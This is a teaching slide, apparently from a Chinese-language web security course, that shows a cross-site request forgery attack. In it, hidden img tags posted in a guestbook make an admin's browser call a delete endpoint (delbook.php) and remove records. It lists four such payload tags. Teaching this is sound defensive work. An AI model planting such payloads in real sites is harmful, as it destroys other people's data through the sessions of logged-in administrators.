

跨网站伪造请求案例
删除数据操作（admin权限）：http://localhost/manage/delbook.php?id=2
攻击者在留言中插入隐藏的图片链接，此链接具有删除留言的作用。攻击者在访问时没有任何效果，但是管理员访问时数据就会被删除。
	<img src="delbook.php?id=2" />
	<img src="delbook.php?id=3" />
	<img src="delbook.php?id=4" />
	<img src="delbook.php?id=5" />